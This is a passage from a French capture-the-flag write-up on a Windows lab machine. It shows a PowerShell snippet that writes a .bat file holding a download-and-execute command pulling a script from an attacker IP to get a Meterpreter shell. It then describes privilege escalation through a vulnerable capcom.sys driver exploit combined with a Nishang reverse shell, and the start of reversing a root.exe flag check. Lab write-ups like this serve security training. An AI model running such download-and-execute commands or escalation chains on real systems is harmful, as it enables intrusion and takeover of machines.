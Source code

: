 Mais comment éditer un fichier de cette façon sous Windows ? Là encore PowerShell nous vient en aide :  

```plain
$strings = @()
$strings += "c:/windows/system32/windowspowershell/v1.0/powershell.exe -nop -exec bypass -c IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.15.59:443/reflection.ps1')"
$strings | Set-Content "c:\users\decoder\clean.bat"
```

L'idée est alors d'utiliser *Invoke-Expression* + *DownloadString* (comme fait jusqu'à présent) pour exécuter ce code et écrire dans le .bat puis ensuite de l'appeler pour enfin obtenir notre Meterpreter x64. Ce qui fonctionne :)  

Pour autant les exploits d'escalade de privilège suggérés par Metasploit n'aboutissent pas. Il fallait se référer au thème du challenge pour remarquer la présence du driver *capcom.sys* sur le système, ce dernier étant vulnérable [à un exploit PowerShell](https://github.com/FuzzySecurity/PSKernel-Primitives/blob/master/Sample-Exploits/Capcom/CapCom-GDI-x64Universal.ps1).  

Afin de pouvoir utiliser cet exploit il suffit alors de remplacer notre fichier *reflection.ps1* par la concaténation de l'exploit *Capcom* avec le reverse shell *Nishang* ce qui permet d'obtenir un shell *NT\SYSTEM*.  

You win !
---------

A ce stade on parvient bien sûr à obtenir le flag de l'utilisateur *decoder* (bb6163c184f203af2a31a9c035934297) mais surprise quand on souhaite obtenir le flag de l'administrateur :  

```plain
PS C:\users\administrator\desktop> dir

    Directory: C:\users\administrator\desktop

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---        24/10/2017     17:02       9216 checkdll.dll
-a---        08/01/2018     22:34       9728 root.exe
-a---        24/10/2017     21:06   13767776 vc_redist.x86.exe
```

Il semble que l'on ait un peu de reverse-engineering sur la planche !  

Le binaire *root.exe* ne fait que se servir de la fonction *dll\_check* de la DLL présente en lui passant la chaîne correspondant à *arvg[1]*. Si le résultat de cette fonction est 1 alors le flag nous est remis.  
